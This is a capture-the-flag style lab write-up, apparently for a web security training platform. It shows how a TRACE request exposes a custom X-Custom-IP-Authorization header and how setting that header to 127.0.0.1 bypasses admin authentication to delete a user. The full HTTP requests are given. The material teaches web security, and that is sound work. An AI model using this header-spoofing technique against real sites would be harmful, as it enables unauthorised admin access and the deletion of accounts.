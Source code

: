 # Authentication bypass via information disclosure

<aside>
❓ This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

</aside>

Let’s start by logging in with the credentials provided `wiener:peter`.

```
GET /my-account?id=wiener HTTP/2
Host: 0afa00d1034b3ac28c8527e00072003e.web-security-academy.net
Cookie: session=iN2HcoeKV2p3ZTx2tAwRcQltndk8C0nT
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://0afa00d1034b3ac28c8527e00072003e.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

The lab mentions a custom HTTP header being used, we can head over to Repeater and alter the `GET` request use the `TRACE` request method instead to debug the response being sent back from the server.

```
HTTP/2 200 OK
Content-Type: message/http
X-Frame-Options: SAMEORIGIN
Content-Length: 864

TRACE /admin HTTP/1.1
Host: 0afa00d1034b3ac28c8527e00072003e.web-security-academy.net
sec-ch-ua: "Not?A_Brand";v="99", "Chromium";v="130"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
accept-language: en-US,en;q=0.9
upgrade-insecure-requests: 1
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-site: same-origin
sec-fetch-mode: navigate
sec-fetch-dest: document
referer: https://0afa00d1034b3ac28c8527e00072003e.web-security-academy.net/login
accept-encoding: gzip, deflate, br
priority: u=0, i
cookie: session=iN2HcoeKV2p3ZTx2tAwRcQltndk8C0nT
Content-Length: 0
X-Custom-IP-Authorization: YOUR.PUBLIC.IP.ADDRESS
```

![image.png](Authentication%20bypass%20via%20information%20disclosure/1.png)

# The Vulnerability

As you can see in the server response, there is a `X-Custom-IP-Authorization` custom HTTP header being used to authorize what IP’s are allowed to view the admin page. I assume if I change the IP address to `127.0.0.1` the server will think that I am accessing the admin page from within the servers network. We can simply add this HTTP custom header to our `GET` request and send it with the value `127.0.0.1` like so:

```
GET /admin HTTP/2
Host: 0afa00d1034b3ac28c8527e00072003e.web-security-academy.net
Cookie: session=iN2HcoeKV2p3ZTx2tAwRcQltndk8C0nT
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Referer: https://0afa00d1034b3ac28c8527e00072003e.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Custom-Ip-Authorization: 127.0.0.1
```

![image.png](Authentication%20bypass%20via%20information%20disclosure/2.png)

This will then give us a 200 status response to the admin page, at this point we can send this session to the Burp browser by clicking `Request in browser` and selecting one of the two following options

![image.png](Authentication%20bypass%20via%20information%20disclosure/3.png)

or we can intercept the requests and step through them in the `Proxy` tab, either way we will need to add the custom `X-Custom-IP-Authorization` header to the request before in order to successfully delete the user. Below is what the final request should look like to delete the user `Carlos` and complete the lab.

```
GET /admin/delete?username=carlos HTTP/2
Host: 0afa00d1034b3ac28c8527e00072003e.web-security-academy.net
Cookie: session=iN2HcoeKV2p3ZTx2tAwRcQltndk8C0nT
Cache-Control: max-age=0
Sec-Ch-Ua: "Not?A_Brand";v="99", "Chromium";v="130"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0afa00d1034b3ac28c8527e00072003e.web-security-academy.net/admin
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
X-Custom-Ip-Authorization: 127.0.0.1
```